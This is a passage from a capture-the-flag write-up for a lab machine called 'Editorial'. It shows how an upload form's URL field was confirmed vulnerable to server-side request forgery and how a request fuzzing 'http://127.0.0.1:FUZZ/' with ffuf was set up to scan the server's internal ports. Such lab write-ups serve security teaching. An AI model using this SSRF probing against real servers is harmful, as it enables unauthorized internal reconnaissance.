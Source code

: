 Let's navigate to the website.

![webpage](1.png)

Nothing really useful on the home page, let's check the other pages.

![upload](2.png)

On the `Publish with us`, we find an upload form.

Let's fill the form and submit it.

![form](3.png)

After submitting the form nothing really happened.

Going back we can see there is a `Preview` button. This time I selected an image file and clicked priview.

![preview](4.png)

We can see that the image changed to the one I uploaded.

Let's check the request on burp.

![burp](5.png)

We can see here a POST request to `/upload-cover`, and we get a path to the image in the response.

I tried uploading a reverse but it didn't get executed, this was a rabbit hole.

The next thing I tried is the URL form, I supplied my tun0 ip address and setup a listener.

![ssrf](6.png)

After sending the request I was able to get a connection on my listener. This mean the website is vulnerable to SSRF(Server Side Request Forgery).

### SSRF

Let's try enumerating local port to see if there are any other service running on the target.

First let's generate a list of ports:

```bash
seq 1 65535 > list.txt
```

Now we can use ffuf to bruteforce the port number.

First we save the request from burp to `file.req`.

```terminal
POST /upload-cover HTTP/1.1
Host: editorial.htb
Content-Type: multipart/form-data; boundary=---------------------------11871288052085292363748330851
Priority: u=0
Content-Length: 363

-----------------------------11871288052085292363748330851

Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ/
-----------------------------11871288052085292363748330851
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


-----------------------------11871288052085292363748330851--
```